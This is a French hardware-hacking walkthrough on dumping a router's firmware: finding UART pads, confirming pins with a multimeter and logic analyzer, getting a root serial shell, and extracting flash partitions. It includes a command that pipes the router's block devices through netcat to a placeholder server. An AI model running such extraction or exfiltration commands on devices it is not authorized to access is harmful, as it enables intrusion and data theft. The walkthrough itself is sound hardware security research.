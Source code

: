 ```yaml
---
title: Dump d'un routeur
---
```



![[Pasted image 20231023194012.png]]

## Étape 1 : Identification des Pads de Debug et du Protocole

Notre première étape consiste à trouver les pads de debug et à déterminer le protocole de communication, qui peut être SWD, JTAG, ou UART.

## Étape 2 : Test de l'UART - Multimètre 

Nous avons repéré 4 broches sur le PCB, ce qui suggère la présence d'une interface UART. Pour confirmer cela, nous utilisons un voltmètre en mode Continuité en reliant une borne à la masse (GND) et en vérifiant quelles broches émettent un signal sonore. La première broche à émettre le signal sonore est le GND.

![[Pasted image 20231023194119.png]]
## Etapes 3 : Utilisation d'un Analyseur Logique

Nous poursuivons en confirmant les broches à l'aide d'un analyseur logique. Le fil noir est le GND, et nous identifions les autres broches dans l'ordre : gris (0), marron (1), rouge (2). 

Nous alimentons le PCB et capturons la séquence de boot à l'aide du logiciel de l'analyseur logique (DSView (propriétaire)). Sur les 3 broches restantes, nous identifions RX (réception) et VCC (tension constante), ce qui nous conduit à supposer que TX (transmission) ne transmet rien.

![[Pasted image 20231023194135.png]]
![[Pasted image 20231023194149.png]]

À la fin de la capture (1 min), nous ajoutons un décodeur que nous réglons comme UART selon notre hypothèse initiale. Malgré nos tentatives de changement du "Baud rate" (vitesse de transmission) avec des valeurs courantes comme 115200 ou 9600 baud, nous n'obtenons pas de données intelligibles, remettant ainsi en question notre hypothèse de départ.

## Étape 4 : Connexion aux Broches

Nous utilisons un Arduino, un connecteur FTDI pour établir la connexion aux broches identifiées. Ensuite, nous ouvrons un terminal sur notre ordinateur et nous utilisons la commande suivante :

`screen /dev/ttyACM0 115200`

![[Pasted image 20231023194208.png]]

Nous réussissons à accéder au routeur en tant qu'utilisateur "root" !

![[Pasted image 20231023194253.png]]
![[Pasted image 20231023194227.png]]
## Étape 5 : Extraction du Firmware

Étant donné que le routeur utilise un système Linux embarqué, nous souhaitons extraire le système de fichiers (FileSystem), mais si cela n'était pas un système Linux, nous aurions opté pour la récupération du binaire. On se connecte à la box en wifi et nous tentons d'utiliser des binaires déjà présents pour exfiltrer des fichiers, mais cela échoue. Les serveurs FTP ne fonctionnent pas non plus. Nous optons pour la récupération du système de fichiers en utilisant netcat avec la commande suivante :

`cat /dev/mdblock{0..7} |  ./netcat-static-armel IP_SERVER PORT_SERVER`

Voici les fichiers récupéré

Nous obtenons les fichiers du routeur, parmi lesquels le fichier `5_filesystem.image` et le `1_urlader.image` (bootloader) sont particulièrement intéressants.